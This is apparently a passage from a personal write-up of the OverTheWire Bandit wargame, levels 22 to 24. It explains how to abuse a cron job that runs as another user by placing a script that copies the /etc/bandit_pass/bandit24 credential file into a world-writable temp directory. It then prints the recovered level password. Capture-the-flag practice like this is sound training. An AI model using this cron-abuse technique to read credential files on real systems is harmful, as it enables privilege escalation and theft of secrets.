 #### 📘What have I learned?
``` bash 
In this level 22, I learned how to inspect cron jobs running under another user and how to read scripts in /etc/cron.d to find hidden outputs for that particular file. 
```
---

## Level 23 → Level 24
#### 🎯 Goal 
```bash
Creating a bash script to run for the cron.d which runs at regular interval. 
```
#### 🧩 Explain the concept
```bash
The cron jobs are run at the regular interval, this task explains us to write a script to place a file that cron job will later copy or execute as the cron owner. Basically, we are manipulating the environment for the scheduled ob to perform the action to reveal the password for next level. 
```
#### 💻 Commands
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
 mktemp -d
 cd /tmp/tmp.MvfMpR7kwR
nano bandit24_pass.sh - 
" #!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.ljEyl6kv1M/password"
chmod +rx bandit24_pass.sh 
chmod 777 /tmp/tmp.ljEyl6kv1M
touch password
chmod +rwx password 
ls -la
cat password 
```
#### 🔓Password for next level
```bash
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
#### 📜 Output 
